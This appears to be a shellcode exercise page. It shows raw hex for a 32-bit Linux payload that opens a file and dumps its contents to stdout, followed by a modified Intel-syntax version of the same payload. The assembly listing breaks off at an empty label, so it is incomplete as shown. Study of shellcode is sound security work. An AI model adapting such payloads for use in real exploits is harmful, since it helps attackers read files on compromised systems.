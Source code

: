 ```
```

Original shellcode:

	\x31\xC0\x31\xDB\x31\xC9\x31\xD2\xEB\x32\x5B\xB0\x05\x31\xC9\xCD\x80\x89\xC6\xEB\x06\xB0\x01\x31\xDB\xCD\x80\x89\xF3\xB0\x03\x83\xEC\x01\x8D\x0C\x24\xB2\x01\xCD\x80\x31\xDB\x39\xC3\x74\xE6\xB0\x04\xB3\x01\xB2\x01\xCD\x80\x83\xC4\x01\xEB\xDF\xE8\xC9\xFF\xFF\xFF\xEC\xAD

Modified source code (converted to Intel syntax):

```
section .text
	global _start

_start:
        xor     ebx,ebx
        mul     ebx
        cdq
        push    ebx
        pop     ecx
	jmp	two

one:
	pop	ebx
	nop		;useless instruction
	mov	al, 0x5
	xor	ecx, ecx
	int	0x80
	
	mov	edi, eax
	jmp	read

exit:
	mov al, 0x1
	xor	ebx, ebx
	int	0x80

read:
	mov	ebx, edi
	mov al, 0x3
	sub	esp, 0x1
	lea	ecx, [esp]
	nop		;useless instruction
	mov	dl, 0x1
	int	0x80

	xor	ebx, ebx
	cmp	ebx, eax
	je	exit

	push    0x4
        pop     eax
        push    0x1
        pop     ebx
        push    0x1
        pop     edx
	mov	al, 0x4
	mov	bl, 0x1
	mov	dl, 0x1
	int	0x80
	
	add	esp, 0x1
	jmp	read

two:
```